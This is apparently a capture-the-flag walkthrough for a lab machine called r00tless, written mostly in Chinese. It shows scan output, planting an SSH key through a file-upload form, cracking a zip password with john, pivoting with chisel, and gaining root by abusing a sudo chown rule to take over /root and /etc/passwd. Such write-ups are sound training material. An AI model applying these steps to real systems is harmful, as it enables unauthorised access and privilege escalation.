

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/r00tless  
❯ nmap 172.18.0.2 -sV  -A -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 11:27 CST
Nmap scan report for 172.18.0.2
Host is up (0.000092s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:7b:d3:96:f6:83:bb:bd:24:86:b4:a8:f6:59:c3:62 (ECDSA)
|_  256 29:49:38:ae:44:75:d8:88:2a:b6:98:55:00:bd:24:76 (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Subir Archivo
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:12:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-01T03:27:48
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.18.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.77 seconds
```

## Gobuster

```
[root@kali] /home/kali/r00tless  
❯ gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2410]
/.php                 (Status: 403) [Size: 275]
/upload.php           (Status: 200) [Size: 56]
/readme.txt           (Status: 200) [Size: 78]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Own **passsamba**


看来文件上传到了**.ssh/**目录下，那么具体是谁的呢？

大概就是**passsamba**


因此将密钥上传上去就行了

```
[root@kali] /home/kali/r00tless  
❯ cat ~/.ssh/id_rsa.pub >> authorized_keys
```

把**authorized\_keys**上传然后**ssh**登录


## Own root-false

```
passsamba@9c7c24cafe54:~$ ls
note.txt
passsamba@9c7c24cafe54:~$ cat note.txt 

What would "sambaarribasiempre" be used for?
```

或许是某个用户的**smb**密码呢？


得到一个**secret.zip**，但是需要密码

使用**zip2john**配合**john**爆破

```
[root@kali] /home/kali/r00tless  
❯ zip2john secret.zip >> zip.hash

[root@kali] /home/kali/r00tless  
❯ john zip.hash /usr/share/wordlists/rockyou.txt  
```


```
[root@kali] /home/kali/r00tless  
❯ cat secret.txt                          
root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==
```

**base64**解密一下：`passwordbadsecureultra`

## Own less

```
root-false@9c7c24cafe54:~$ cat message.txt 

Mario, remember this word, then the boss will get angry:

"pinguinodemarioelmejor"
```

由于存在第二个网站，这里无法直接进去


在**apache**的配置文件中发现内网**IP**



尝试**curl**访问，看来是一个表单，需要登录


这里使用**chisel**进行代理


可以直接访问了，由于之前得到了一个密码字符串

```
mario:pinguinodemarioelmejor
```

登录成功，得到一个**txt**文件


是一段很长的文本，检索下划线

```
less:Cristal_de_la_Aurora
```

## Root

```
less@9c7c24cafe54:~$ sudo -l
Matching Defaults entries for less on 9c7c24cafe54:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User less may run the following commands on 9c7c24cafe54:
    (ALL : ALL) NOPASSWD: /bin/chown
```

- [chown | GTFOBins](https://gtfobins.github.io/gtfobins/chown/)

可以直接改变**/root**目录的所有者为当前用户


如果想要提升权限，可以修改**/etc/passwd**


比如说新增一个用户，让他和**root**在同一个组里面


## Summary

`User`：上传密钥文件到**/.ssh/**目录，通过**enum4linux**泄露出用户名，**ssh**登录后拿到**smb**的登录密码，爆破压缩包获取到密码，访问内网的第二个网站，登录后拿到了最终的密码。

`Root`：使用**chown**改变**/root/**目录的所有者为当前用户，即可进入。我尝试了手动添加**authorized\_keys**，但是似乎文件拥有者不是登录对象的话，会导致**ssh**认证失败，因此写入密钥的方式就没法完成了。不过可以写入**/etc/passwd**的方式新增**root**组用户来提权。
